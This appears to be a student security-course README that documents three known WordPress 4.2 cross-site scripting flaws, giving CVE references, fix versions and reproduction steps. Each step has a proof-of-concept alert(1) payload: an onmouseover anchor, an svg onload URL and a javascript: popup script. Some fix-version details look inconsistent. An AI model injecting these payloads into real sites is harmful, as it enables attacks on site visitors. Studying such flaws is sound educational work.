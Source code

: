 # Cyber-Security-Week7

Time spent: 8 hours spent in total

Objective: Search, Retrieve, Process, Recreate, and document 3 vulnerability on this version of WordPress

Version of WordPress Tested: 4.2

Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
Hover over the posted comment.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8133

[Link 2] Reference: https://core.trac.wordpress.org/changeset/33549

[Link 3] Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html

[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://imgur.com/a/uaj7O

Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress 3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8358

[Link 2] Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/

[Link 3] Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87

[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://imgur.com/a/oHP7b

Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
Click on the button.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8489

[Link 2] Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/

[Link 3] Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8

[Link 4] Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e

[Link 5] Reference: http://avlidienbrunn.com/wp_some_loader.php

[Link 6] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://imgur.com/a/7gK3e
